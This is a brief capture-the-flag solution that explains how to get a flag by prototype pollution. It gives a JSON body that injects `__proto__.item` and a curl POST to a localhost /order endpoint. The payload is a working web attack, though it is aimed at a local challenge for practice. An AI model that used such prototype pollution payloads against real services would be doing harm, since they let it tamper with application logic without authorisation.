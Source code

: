 # solution
- post a request with a prototype pollution (`__proto__`) for the "item" field.
- POST body: `{"amount": 1, "__proto__": { "item": "🚩" }}`

```
curl --location --request POST 'http://localhost:2210/order' \
--header 'Content-Type: application/json' \
--data-raw '{"amount": 1, "nope": "🧋", "__proto__": { "item": "🚩" }}'
```